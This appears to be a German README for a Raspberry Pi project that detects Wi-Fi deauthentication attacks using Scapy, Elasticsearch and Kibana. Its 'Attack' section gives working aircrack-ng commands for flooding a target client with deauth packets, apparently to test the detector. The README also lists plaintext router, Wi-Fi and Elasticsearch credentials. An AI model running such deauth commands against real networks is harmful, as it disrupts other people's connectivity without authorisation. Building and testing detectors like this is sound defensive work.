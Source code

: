 # Eingesetzte Technologien
- Pi-Sniff > Python-Skript (Scapy)
    - Schranke mit aircrack-ng ausloten
- Server-DB > Elasticsearch
- Server-GUI > Kibana

# Dashboard
- Pie-Chart
- Heat-Map (MAC-Adresse Angreifer nach Zeit in bestimmter Granularität)
- Bar-Chart (MAC-Adresse x # Packete absolut)
- Bar-Chart (MAC-Adresse x # Packete normalisiert)

# Zugangsdaten
## Router
- Web-UI: root:supersecurepassword
- WLAN: DancingRainbows:supersecurepassword

# Attack
## Monitor Mode starten
`airmon-ng start wlan0`

## MAC-Adressen von AP und Target herausfinden
`airodump-ng wlan0`

## Senden von Deauth-Packets
`aireplay-ng -0 0 -a <AP-MAC> -c <Target(Client)-MAC> wlan0`

# Log-File
New-line getrennte JSON-Objekte mit der Form:
`{'timestamp': 1682011162.6059976, 'reciever': 'aa:bb:cc:11:22:33', 'source': 'aa:bb:cc:11:22:34', 'bssid': 'aa:bb:cc:11:22:35', 'attack_uuid': UUID('75d183a8-7861-4c6e-9e03-37ddbb3156ca')}`

# Python
## Install requirements
`pip install -r requirements.txt`

## Run
Skript muss mit `sudo` ausgeführt werden, um auf NIC zugreifen zu können.

# Docker
## Build image
`docker build -t pinkfluffyunicorn:dev -f "$(pwd)/Kali.Dockerfile" .`

## Start image
Interface als Environment übergeben.

`docker run --privileged -it --network host --env IFACE=wlan0 pinkfluffyunicorn:dev /bin/bash`

## Aufräumen
Alle container zeigen

`docker ps`

Alle images zeigen

`docker images`

Bestimmte images löschen
(hashes durch `docker images` suchen)

`docker rmi imagehash1 imagehash2 imagehash3 ...`

oder mit Namen
`docker rmi pinkfluffyunicorn:dev`

# Docker Compose

## .env

Beinhaltet Environment-Daten für das Docker-Compose-Skript.

## Build

`docker compose build`

## Run

`docker compose up`

## Open shell

`docker exec -it pinkfluff /bin/bash`

## Startprozedere
Raspi hochfahren
im Terminal: `sudo sysctl -w vm.max_map_count=262144`
`sudo docker-compose up` im Verzeichnis advProg/advProg ausführen
Terminal im Container öffnen mit `docker exec -it pinkfluff /bin/bash`
(eventuell `filebeat setup -e` nochmal im Container-Terminal ausführen)
Im Container-Terminal `sudo service filebeat start` ausführen
Im Raspi-Browser: `localhost:5601` aufrufen, einloggen mit `elastic:password`

